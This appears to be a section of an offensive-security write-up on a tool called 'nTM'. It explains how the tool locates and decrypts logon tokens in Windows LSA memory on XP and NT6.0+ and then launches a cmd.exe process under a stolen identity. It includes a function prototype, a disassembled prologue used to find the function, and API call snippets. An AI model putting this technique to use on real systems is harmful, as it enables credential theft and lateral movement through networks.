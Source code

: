 


====[5] [Intranet Propagation]=====================================================================
    [5bb] NT6.0+ and NT5 Differences
    
    The same algorithm is taken by both OSs, but there are a few differences between
Windows XP and Windows 7 token storage. nTM finds the encrypted tokens by searching
all pages with the MEM_COMMIT and MEM_PRIVATE switches. Real tokens are found by 
searching for the 'Primary' signature, which must be referenced by another value.

    Windows XP implements a DES-X block encryptor with CBC cipher chaining to hide
the presence of the token object. LsaInitializeProtectedMemory(...) generates a DES-X
hints table, which is then stored in heap memory. Token objects are decrypted using a 
call to LsaEncryptMemory(...), in lsasrv.dll. This function will access the hint tables
and decrypt a block of memory. 

LsaEncryptMemory prototype and signature

void (WINAPI *LsaEncryptMemory)(unsigned int *, // Pointer to buffer
                                unsigned int,   // Size of buffer
                                unsigned int)   // Mode. 1=encrypt, 0=decrypt
                                = NULL;
                                
.text:7573FDEC 000 8B FF                   mov     edi, edi
.text:7573FDEE 000 55                      push    ebp
.text:7573FDEF 004 8B EC                   mov     ebp, esp
.text:7573FDF1 004 81 EC 10 01 00 00       sub     esp, 110h
.text:7573FDF7 114 A1 58 01 7D 75          mov     eax, ___security_cookie
.text:7573FDFC 114 56                      push    esi
.text:7573FDFD 118 8B 75 08                mov     esi, [ebp+arg_0]
.text:7573FE00 118 85 F6                   test    esi, esi
.text:7573FE02 118 89 45 FC                mov     [ebp+var_4]


    In XP, the LsaEncryptMemory function is identified in memory through the function
prologue. Utilizing this function allows nTM to decrypt/encrypt any token in memory.

    NT6.0+ is much to the same effect, except for varying offsets in the tokens. The
bcrypt library is instead used by LSA to perform encryption on tokens. All tokens in
LSA are encrypted using the same key, generated using the same secret. nTM finds the 
secret in lsasrv heap memory and generates a symmetric DESX-CBC key from it. The keys
are then used to perform encryption on the tokens.

    Furthermore, Windows XP uses the Advapi32.dll exports LogonUser(...) and 
CreateProcessAsUser(...) to create the husk process. 

LogonUser(  real_token.user,
            real_token.domain,
            PLAINTEXT_PASS,
            LOGON32_LOGON_NEW_CREDENTIALS,
            LOGON32_PROVIDER_DEFAULT,
            &token);
            
CreateProcessAsUser(    token,
                        NULL,
                        L"C:\\WINDOWS\\system32\\cmd.exe",
                        NULL,
                        NULL,
                        FALSE,
                        CREATE_SUSPENDED,
                        NULL,
                        NULL,
                        &startup_info,
                        &process_info);
                        
